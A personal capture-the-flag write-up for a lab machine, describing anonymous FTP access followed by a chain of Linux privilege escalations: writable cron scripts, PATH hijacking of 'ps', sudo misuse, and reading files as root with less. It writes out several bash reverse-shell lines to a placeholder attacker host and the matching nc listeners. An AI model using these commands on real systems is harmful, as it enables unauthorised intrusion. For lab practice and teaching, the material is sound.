









# Jump Write-up



Let's practice some privilege escalation! Our objective in this room is to move laterally through the system. From **anonymous**, we need to get all the way to root. To be exact, we have to escalate our privileges from one to another

`recon_user → dev_user → monitor_user → ops_user → root`

Boot the machines and let's get started

## Enumeration

Before we escalate anything, it's important we know as much about the system as possible. This room doesn't give us any credentials to log in to the target server. In that case, we should do a nmap port scan to see which ports are open

```txt
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```

The FTP protocol allows for anonymous login without needing a password if not configured correctly. 



If you are unfamiliar with ftp, you can use some basic Linux commands like `ls` or `cd` to move through the files. Changing the directory to `cd /pub` and listing it's content, we notice a `README.txt`.
I downloaded that to my machine with the following command:

```bash
get README.txt
```

On my machine I checked what's in there



That's a valuable information! Files that are uploaded to `/incoming` will be processed automatically. That means we could upload a script there which would connect back to us to establish a reverse shell as the recon_user.

Generate the following script:
```bash
nano shell.sh

#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_MACHINE/4444 0>&1
```

Start a listener on you machine
```bash
nc -lvnp 4444
```

And finally upload that shell to the specified directory
```bash
cd /incoming
put shell.sh
```

Wait a moment and you will get a connection back

> Claim your flag with `cat flag.txt`

## System enumeration

Now that we established a connection to the system, we should gather information about the system, so we could find any exploits if we don't find any misconfigurations. 

Here is a table with the most important information about the system
```txt
Architecture: x86_64
Kernel version: 6.17.0-1013-aws
Distro: #13~24.04.1-Ubuntu
```

That would be enough information to find exploits, however we should try to find misconfigurations first. We can't see our current sudo privileges with `sudo -l` since we need a password for that.

After that, I like to check crontabs as that could be a quick win to even gain root privileges. I checked basic locations like `/etc/crontab` and `/etc/cron.d`. Also, the current user doesn't have permissions for `/var/spool/cron/crontabs/`, where each user's cron job is saved. We might need to come back to this

Then, I tried to find if the `dev_user` has any files with SUID we could modify to give us access. 
-> `find / -type f -perm -04000 -ls 2>/dev/null | grep 'dev_user'`

Nothing. I then read the room information again and realized every user has a specif role on this machine. So I wondered, what if I look for every shell script. If I could find one from `dev_user`, I might be able to add the SUID permission, or it's a script that is being run as a cron job which I wasn't able to see. Here is what I did

1. `find / -type f -name *.sh -ls 2>/dev/null | grep 'dev_user'` to reduce my finding to only `dev_user`
2. I found `/opt/dev/backup.sh` and was able to write to that file. Knowing that, I added a command which would connect to my machine: `echo 'bash -i >& /dev/tcp/ATTACKER_MACHINE/5555 0>&1' >> /opt/dev/backup.sh`
3. Started a listener `nc -lvnp 5555`
4. I wanted to add SUID perms `chmod +s /opt/dev/backup.sh` which didn't work
5. Suddenly, I got a connection back as `dev_user`




## From Dev_user to monitor_user

With this user, I still can't check `/var/spool/cron/crontabs`, I also tried checking my Sudo permissions, but without a password I cant, and guessing would be stupid

I've been kinda stuck from here on out. I felt like I already checked most there is to check. I thought about trying to find an exploit, but that might kill the whole purpose of this room. I looked at my notes and found two things I havent checked yet

1. Checking capabilities: `getcap -r / 2>/dev/null`. I found one Binary that had a capability like `cap_setuid`, however that's one from Linux and not exploitable. 
2. Checking running processes: `ps aux`

Now when checking these Processes, I noticed the monitor user was running some. One that caught my eyes was 
```txt
monitor+ [...] /bin/bash /usr/local/bin/healthcheck
```

I checked the file type of that file and saw this:
```bash
file /usr/local/bin/healthcheck

/usr/local/bin/healthcheck: Bourne-Again shell script, ASCII text executable
```

When I saw that, I also got curious if I would've found it with my previous approach for `dev_user`, since I also saw his `backup.sh` when checking the processes

```bash
find / -type f -name *.sh -ls 2>/dev/null | grep 'monitor_user'
```

I didn't find the healthcheck script, but I did find another script which might be useful as well. For now I only noted it: `/opt/app/deploy_helper.sh`, since it does not have SUID perms

I can't write in `/usr/local/bin/healthcheck`, but I remembered something when checking the script
```bash
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
  ps aux | grep -v grep
  sleep 5
done

```

There is no absolute path for the commands, so this might be vulnerable to PATH escalation. We can't execute the script as the monitor user since it doesn't have SUID perms, so a script which just spawns a shell wont work. We could do the same we have done for the last two users though - establishing a reverse shell

If you are a stranger to PATH escalation, here is how it works: Linux uses the PATH environmental variables to find commands it should execute. When you enter a command like `ps`, Linux checks the PATH to see if there is a binary like that. If we would create a binary in the PATH that's called exactly like that, chances are our binary or rather script would be executed.

There is just one problem, usually you can't write to PATH locations, so we need to add a location where we can write to
```bash
find / -type d -writable 2> /dev/null | sort -u
```

Usually, you'd find the `/tmp` directory as a writable location, so add it to the PATH environmental variable

```bash
export PATH=/tmp:$PATH
```

Now that we have done that, go to that directory and make a script that will connect back to us

```bash
nano ps

#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_IP/6666 0>&1
```

Start your listener on your attacking machine
```bash
nc -lvnp 6666
```

Make the new made ps script executable and wait
```bash
chmod +x ps
```

At first I didn't get a connection back, so I wanted to kill the process for `monitor_user` in hopes that it would start again through a cron job. Of course, I didn't had permission for that. Since the Script executes `ps aux` every 5 seconds, It should've made a connection to me after 5 seconds. It took around 5-10 minutes until the connection came, pretty weird but now it's there




## From Monitor_user to ops_user

Again, the first things I am checking if I can see my sudo privileges or if I can finally see the crontabs 



Oh well, finally something that wont take that long. Notice how I can see that `ops_user` can run this deploy.sh script as sudo? That means I can specify `ops_user` as the user that will run this shell script with sudo privileges using the `-u` flag. I just need to change the deploy.sh shell script to spawn a shell for me as this user. Just spawning in a shell would be pretty unstable, so I will establish a reverse shell again

I cant write in `deploy.sh`, but that script changes it's directory to `/opt/app` and then executes `./deploy_helper.sh` which I have already found earlier. Now it's coming in handy

```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/9999 0>&1' >> /opt/app/deploy_helper.sh
```

Start your listener again this time on port 9999 and execute the script as ops_user
```bash
sudo -u ops_user /usr/local/bin/deploy.sh
```




## Escalation to root

Finally, we are so close to getting root access! And again, we can see sudo privileges for ops_user! 

```txt
User ops_user may run the following commands on tryhackme-2404:
    (root) NOPASSWD: /usr/bin/less
```

We can run `less` with root, meaning we can read every file as root. I tried to establish a shell with root using the `less` command, but I wasn't able to. Feel free to try it out, here is the [GTFO](https://gtfobins.org/gtfobins/less/#shell) link for the `less` command and how to escalate your privileges with that. 

Still, it's powerful enough to be able to read every file as root. We could read the `/etc/passwd` file for example and crack it's hashes offline. This way, we could find a password to login as root or any other user. The PoC (Reading the flag) is enough though, just so you get a feeling why this is powerful



## Conclusion

I really loved this room! Of course, it was frustrating here and there, but it really showed off all the different ways as to how you can escalate your privileges. It really challenged me and made me adapt when my usual approaches didn't work. Overall, I tried a lot of different approaches, failed a lot of them, moved on and eventually got it! If you learned privilege escalation recently like I did, you are going to love this room! I spent my whole afternoon on this room and write-up, so I hope you enjoyed it and it helped you out